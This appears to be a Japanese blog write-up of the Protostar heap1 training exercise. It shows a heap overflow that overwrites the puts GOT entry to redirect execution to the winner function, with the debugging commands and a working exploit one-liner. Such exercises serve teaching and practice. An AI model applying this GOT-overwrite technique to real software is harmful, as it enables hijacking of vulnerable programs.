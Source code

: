 ```yaml
---
layout: post
alias: "/blog/2016/01/22/exploit-exercises-protostar-heap1/"
date: 2016-01-22T14:29:45+09:00
tags: [ "ctf", "writeup", "exploit-exercises", "heap", "heap-overflow", "buffer-overflow" ]
---
```


# Exploit Exercises Protostar Heap1

## [Protostar Heap1](https://exploit-exercises.com/protostar/heap1/)

``` sh
$ file heap1
heap1: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.18, BuildID[sha1]=d8d9ab550fbb79da574639c8d3abdf96594cc21d, not stripped

$ checksec --file heap1
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   heap1
```

と`No RELRO`なのでgotへの書き込みが可能である。与えられたコードによると、

``` c
  strcpy(i1->name, argv[1]);
  strcpy(i2->name, argv[2]);

  printf("and that's a wrap folks!\n");
```

と2回書き込みがあるので、1回目でoverflowにより`i2->name`に`printf`のgotのアドレスを書き込み、2回目の書き込みはそのgotに目的の関数`winner`のアドレスを書き込めばよい。
ただし、`printf("and that's a wrap folks!\n");`の呼び出しは最適化により`puts("and that's a wrap folks!");`で置き換わっている[^1]ので、`puts`のgotを使用する。

``` sh
$ ./heap1 foo bar
and that's a wrap folks!

$ gdb heap1
...
# the malloc-ed addresses are 0x804a008, 0x804a018, 0x804a028 and 0x804a038

$ echo $[0x804a028+4 - 0x804a018]
20

$ objdump -d -M intel heap1 | grep -A 1 '<puts@plt>:'
080483cc <puts@plt>:
 80483cc:   ff 25 74 97 04 08       jmp    DWORD PTR ds:0x8049774

$ readelf -s heap1 | grep '\<winner\>'
    55: 08048494    37 FUNC    GLOBAL DEFAULT   14 winner

$ ./heap1 $(perl -e 'print "A"x20, "\x74\x97\x04\x08"') $(echo "\x94\x84\x04\x08")
and we have a winner @ 1453452850
```

---

# Exploit Exercises Protostar Heap1

[^1]: gccであればdefaultの`-O0`でも発生する最適化。`-fno-builtin`で抑制できる。
